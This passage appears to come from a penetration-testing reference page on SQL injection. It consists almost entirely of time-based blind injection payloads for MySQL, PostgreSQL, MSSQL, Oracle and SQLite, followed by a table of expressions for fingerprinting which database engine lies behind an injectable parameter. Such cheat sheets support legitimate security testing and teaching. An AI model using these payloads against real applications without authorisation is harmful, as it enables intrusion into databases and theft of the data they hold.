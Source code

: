 ```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

In some cases the **sleep functions won't be allowed**. Then, instead of using those functions you could make the query **perform complex operations** that will take several seconds. *Examples of these techniques are going to be commented separately on each technology (if any)*.

#### Identifying Back-end

The best way to identify the back-end is trying to execute functions of the different back-ends. You could use the ***sleep*** **functions** of the previous section or these ones:

```
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
